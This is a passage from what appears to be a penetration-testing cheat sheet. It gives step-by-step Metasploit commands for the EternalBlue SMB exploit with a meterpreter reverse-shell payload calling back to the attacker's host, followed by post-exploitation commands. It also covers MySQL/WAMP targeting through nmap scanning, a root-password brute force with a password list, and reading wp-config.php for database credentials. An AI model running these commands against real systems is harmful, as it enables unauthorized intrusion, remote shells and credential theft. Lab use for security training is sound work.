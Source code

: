 ### If you *do not* have creds

Check for SMB vulns (e.g., MS17-010 / EternalBlue). Use search and test in lab first:

```text
# in msfconsole
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your-ip>
run
```

Once you have a session:

```text
sysinfo
getuid
getprivs
```

---

## Targeting MySQL / WAMP / phpMyAdmin (practical chain)

1. **Detect MySQL and WAMP**

```bash
nmap -sC -sV -p 3306,8585 <target-ip>
```

* Port `3306` is MySQL; `8585` might be a WAMP control panel or web interface.

2. **Search for exploits**

```bash
searchsploit "MySQL 5.5"
```

3. **Try MySQL login brute or known creds**

```bash
# Metasploit
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <target-ip>
set USERNAME root
set PASS_FILE /path/to/passwords.txt
run

# direct test
mysql -u root -p -h <target-ip>
```

4. **If you find a WordPress DB and WAMP with phpMyAdmin only bound to 127.0.0.1**
   A common escalation *chain*:

* Gain code execution on the host (e.g., via SMB exploit like EternalBlue).
* Navigate to WAMP/Apache web root and find `wp-config.php` to get DB credentials.
